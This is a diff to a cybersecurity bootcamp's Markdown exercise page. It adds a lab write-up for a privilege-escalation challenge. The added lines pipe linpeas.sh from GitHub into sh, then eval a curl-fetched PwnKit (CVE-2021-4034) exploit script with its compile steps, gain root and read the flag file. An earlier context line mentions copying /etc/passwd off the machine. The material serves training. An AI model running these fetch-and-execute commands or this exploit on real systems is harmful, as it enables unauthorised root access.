

Before and after one commit to Crucius96/Becode_Cybersecurity, a Markdown page: Linux Chapter/Linux Commands/Theory_&_Questionnaire.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Linux Chapter/Linux Commands/Theory_&_Questionnaire.md
+++ b/Linux Chapter/Linux Commands/Theory_&_Questionnaire.md
@@ -275,3 +275,37 @@ Learning how to transfer files between files different machines.
 
 1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
     > Your commands :  tftp 10.12.172.105
+
+
+
+
+## 6. Privilege Escalation
+
+
+### Exercises
+1. Find the root flag hidden on your student machine.
+
+> Flag : BC{y0ur_f1r57_r007_fl46#_w3ll_d0n3}
+
+I've used Linpeas like this first to see which vulnerabilities I could try to exploit :
+
+    > curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
+
+The vulnerability I chose is **CVE-2021-4034** and I downloaded an existing script to exploit it and then I did as instructed in the Readme file :
+
+    > eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
+    > cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
+    > cc -Wall    cve-2021-4034.c   -o cve-2021-4034
+    > echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
+    mkdir -p GCONV_PATH=.
+    cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
+
+Then check user with command :
+
+    > whoami
+    root
+
+Then you'll be in the shell as root and be able to navigate to the root folder where you'll find the flag.txt file:
+
+    cd /root/
+    cat flag.txt
```
